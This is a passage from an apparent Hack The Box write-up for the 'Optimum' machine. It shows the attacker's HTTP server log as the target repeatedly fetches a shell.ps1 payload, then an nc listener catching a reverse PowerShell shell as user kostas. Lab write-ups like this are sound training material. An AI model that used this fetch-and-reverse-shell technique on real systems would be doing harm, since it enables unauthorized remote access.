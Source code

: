![Shell](/assets/img/optimum/shell.png)

When I click send, I see it grabbing the file from my box, not sure why it made those many requests.

```
┌─[george@parrot]─[~/HTB/boxes/optimum/www]
└──╼ $ sudo python3 -m http.server 80
[sudo] password for george:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [17/Oct/2023 19:02:57] "GET /shell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [17/Oct/2023 19:02:57] "GET /shell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [17/Oct/2023 19:02:57] "GET /shell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [17/Oct/2023 19:02:57] "GET /shell.ps1 HTTP/1.1" 200 -
```

And we have a foothold on the box

```
┌─[george@parrot]─[~/HTB]
└──╼ $ rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.8] 49162
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

dir


    Directory: C:\Users\kostas\Desktop


Mode                LastWriteTime     Length Name                                                                      
----                -------------     ------ ----                                                                      
-a---         18/3/2017   2:11 ??     760320 hfs.exe                                                                   
-ar--        23/10/2023  11:45 ??         34 user.txt                                                                  


PS C:\Users\kostas\Desktop>
```
